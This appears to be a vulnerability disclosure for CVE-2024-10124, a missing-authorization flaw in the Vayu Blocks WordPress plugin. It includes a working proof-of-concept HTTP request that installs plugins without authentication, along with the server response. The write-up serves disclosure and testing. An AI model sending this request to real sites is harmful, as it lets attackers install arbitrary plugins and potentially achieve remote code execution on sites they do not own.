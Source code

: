 # CVE-2024-10124
Vayu Blocks – Gutenberg Blocks for WordPress & WooCommerce <= 1.1.1 - Missing Authorization to Unauthenticated Arbitrary Plugin Installation/Activation

# Description

The Vayu Blocks – Gutenberg Blocks for WordPress & WooCommerce plugin for WordPress is vulnerable to unauthorized arbitrary plugin installation and activation due to a missing capability check on the tp_install() function in all versions up to, and including, 1.1.1. This makes it possible for unauthenticated attackers to install and activate arbitrary plugins which can be leveraged to achieve remote code execution if another vulnerable plugin is installed and activated. This vulnerability was partially patched in version 1.1.1.

## Details

- **Type**: plugin
- **Slug**: vayu-blocks
- **Affected Version**: 1.1.1
- **CVSS Score**: 9.8
- **CVSS Rating**: Critical
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
- **CVE**: CVE-2024-10124
- **Status**: Active

POC
---

```
POST /wp-json/ai/v1/vayu-site-builder HTTP/2
Host: wp-dev.ddev.site
Content-Type: application/json
Content-Length: 347


{
    "params": {
        "plugin": {
            "akismet": "Akismet Anti-Spam"
        },
        "allPlugins": [
            {
                "akismet": "akismet/akismet.php"
            }
        ],
        "themeSlug": "",
        "proThemePlugin": "",
        "templateType": "free",
        "tmplFreePro": "plugin"
    }
}
```

Should return your site url.

```
HTTP/2 200 OK
Access-Control-Allow-Headers: Authorization, X-WP-Nonce, Content-Disposition, Content-MD5, Content-Type
Access-Control-Expose-Headers: X-WP-Total, X-WP-TotalPages, Link
Allow: POST
Cache-Control: no-store, no-cache, must-revalidate
Content-Type: application/json; charset=UTF-8
Date: Thu, 12 Dec 2024 15:12:24 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Link: <https://wp-dev.ddev.site/wp-json/>; rel="https://api.w.org/"
Pragma: no-cache
Server: nginx
Set-Cookie: PHPSESSID=95f3c834be0cac72019468ca39e71fa9; path=/
Vary: Accept-Encoding
X-Content-Type-Options: nosniff
X-Robots-Tag: noindex

"\"https:\\\/\\\/wp-dev.ddev.site\""
```
